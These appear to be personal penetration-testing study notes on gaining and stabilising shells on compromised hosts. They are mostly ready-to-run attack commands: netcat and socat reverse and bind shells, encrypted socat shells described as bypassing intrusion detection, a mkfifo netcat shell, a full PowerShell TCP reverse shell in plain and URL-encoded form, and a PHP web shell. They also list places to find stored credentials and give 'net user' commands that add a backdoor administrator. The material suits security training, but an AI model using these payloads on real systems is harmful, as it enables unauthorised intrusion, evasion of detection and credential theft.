


# Shells
These cheat sheet include different code language for reverse shell
- [Reverse Shell Cheat Sheet 1](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- [Reverse Shell Cheat Sheet 2](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [infosec wordlist and useful code for shell](https://github.com/danielmiessler/SecLists)
- Main tools
	- Netcat: the traditional Swiss Army Knife, ready out of the box; `nc -lvnp [port]`
	- Socat: Netcat+, difficult syntax+not installed by default
	- Metasploit: multi/handler; "multipreter"
	- Msfvenom; `msfvenom -p [payload] <options>`
		- `msfvenom -p [payload] lhost=[lhost] lport=[lport]`
- This is more about when connecting to a empty port, the port doesn't know what its doing when connected via empty port, terminal shells connected via empty port are fragile, thus the requirement of running commands to stabilize the terminal using the available resource is a must when using reverse/bind shell.
- Change terminal tty size using `stty -a`,  then use the following command to resize
	- `stty rows <number>`
	- `stty cols <number>`

## Netcat
- opening a port and listen for the connection
- Netcat is the "Swiss Army Knife" of networking, installed by default. Socat is the upgrade version of netcat, but hard to use and NOT installed by default.
- Opening a port on local computer `nc -lvnp <port-number>`
	- port below 1024 requries sudo priviledge e.g. `sudo nc -lvnp 443`
- Looking a bind shell on the target machine `nc <target-ip> <chosen-port>`
- Has a `-e` option to auto execute the command upon connection `nc -lvnp <PORT> -e /bin/bash` for bind or `nc <LOCAL-IP> <PORT> -e /bin/bash` for reverse. However, this is not included in most version
	- Included in `/usr/share/windows-resources/binaries` in kali
	- `netcat-traditional` in kali does include -e version

## Three way to stabilize shell
### Method 1: Python shell
- manual netcat + manual stabilizer
- when shell is connected via netcat
> // Use python2 or python3 depending on the system to spawn a better featured bash shell
> python -c 'import pty;pty.spawn("/bin/bash")' 
> // access to command such as clear
> export TERM=xterm
> // finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use stty raw -echo; fg. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process. 
> stty raw -echo; fg> 

### Method 2: rlwrap
- rlwrap =  Netcat +  manual stabilizer
- A program that give access to history, tab autocompletion and the arrow keys immediately upon receiving a shell
- some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell.
- Not installed by default
- Installation command: `sudo apt install rlwrap`
- Invoke listener: `rlwrap nc -lvnp <port>`
- Useful when dealing with Windows shells
- Can use the same technique as method 1 to completely stabilize shell: background the shell with `Ctrl + Z`, then use `stty raw -echo; fg` to stabilise and re-enter the shell

### Method 3: Socat
- Socat = Netcat + auto stabilizer
- Limited to linux target who has socat installed
- Has to transfer [socat static compiled library](https://github.com/danielmiessler/SecLists) to the target machine, 
	- Local, start a server using `sudo python3 -m http.server 80`
	- Download on remote machine using `wget <LOCAL-IP>/socat -O /tmp/socat`
- Windows can be done with Powershell, using either `Invoke-WebRequest` or a `webrequest system`
	- e.g. `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`

# Socat
## Stable Reverse Shell
### tty shell
- `"socat TCP-L:<port> FILE:'tty',raw,echo=0"`
	- connecting two points: listening port, and a file
		- passing in the current TTY as a file and setting the echo to be zero
		- equivalent to using the Ctrl + Z,
- `stty raw -echo; fg` (must have socat installed)
	- added bonus of being immediately stable and hooking into a full tty
	- must be activated with a very specific socat command
	- Upload the [precompiled socat binary](../../../_resources/socat) to execute as normal
- `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`
	- The first part, we're linking up with the listener running on our own machine. 
	- The second part of the command creates an interactive bash session with  `EXEC:"bash -li"`. 
	- We're also passing the arguments: pty, stderr, sigint, setsid and sane:
### Stable Reverse Shell
- Local listening port: `socat TCP-L:<port>`, equivalent to `nc -lvnp <port>`
- Window: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`, this force powershell to use Unix stype standard input output
- Linux: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`
### Bind Shells
- Local listening port: `socat TCP:<TARGET-IP>:<TARGET-PORT> -`
- Linux: `socat TCP-L:<PORT> EXEC:"bash -li"`
- Windows: `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

## Encrypted Shells
- Socat allow the creation of encrypted shell
- Encrypted shells can bypass an IDS
- can create both bind and reverse
- The connection will turn into encrypted connection: certification is added to the listening port so any connection to this port will require to use the set certificate to connect.
- Windows will also require certificates to be used with the port, so copying the PEM file across for a bind shell is required
*Anytime using Socal, the command`TCP` can be replaced with `OPENSSL`
- **Creating certificate**
	- create certificate `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
		- This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.
	- create .pem file `cat shell.key shell.crt > shell.pem`
- **Reverse shell listener**:
	- `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`
	- `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`
- **bind shell**:
	- `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`
	- `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`
- **tty version of encrypted shell**
	- `socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0`
	- `socat OPENSSL:10.10.10.5:53 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

# Common Shell payload
- Netcat has `-e` option. However, a lot of version no longer has it
- In Windows, static binary is nearly always required 
- In linux:
	- Bind shell command: `mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
		- The command first creates a named pipe at /tmp/f. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into sh, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.
		- In short, automatically sends the input from the port to shell
	- Reverse Shell command `mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
- In Windows Server: 
	- Powershell is usually required
	- Reverse shell command `powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
		-  replace `<IP>` and `<port>` with an appropriate IP and choice of port.
-  [PayloadsAllTheThings, Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
-  WebShells:
	-  Mostly usefull for **Linux**
	-  PHP basic line format: `<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>` (This is the webpage uploaded to web-server)
		-  This will take a GET parameter in the URL and execute it on the system with `shell_exec`(). Essentially, what this means is that any commands we enter in the URL after `?cmd=` will be executed on the system -- be it Windows or Linux. The "pre" elements are to ensure that the results are formatted correctly on the page.
		
		- There are variety of shell available on kali: `/usr/share/webshells`
			- including the infamous [PentestMonkey php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
			- Notice that language specific (e.g. PHP) reverse shells are written for Unix based targets such as Linux webservers. They will not work on Windows by default
	- For **Windows**: It is best to
		- obtain RCE using web shell. Obtain via URL Encoded Powershell Reverse Shell. This would be copied into the URL as the cmd argument:
			- (URL encoded to be used safely in a GET parameter): `powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22`
				- `<IP>` and `<PORT>` still need to be changed 
			- Which is the same as `powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
		- use msfvenom to generate a reverse/bind shell in the language of the server

# Gain access to stabilize shell
- The shell payload (incomplete shell) is a way to escalate to the native shell (complete shell)
- All the of shell mentioned above are not stable, the best way to have a constant shell is to have a user account's ssh.
- Linux: 
	- the common way is via `/home/<user>/.ssh`
	- or for others with writable `/etc/shadow` or `/etc/passwd`
	- or laying somewhere around
- Windows: 
	- Find password for running services in the registry
		- VNC servers often leave password in the registry stored in plaintext
		- Some FileZilla FTP server also leave credentials in an XML file at :
			- `C:\Program Files\FileZilla Server\FileZilla Server.xml`
			- `C:\xampp\FileZilla Server\FileZilla Server.xml`
			- plaintext or md5
	- Idealy is to obtain a shell running as the SYSTEM user, or an administrator account running with high privileges. Use that to add new user to gain access.
		- `net user <username> <password> /add`
		- `net localgroup administrators <username> /add`
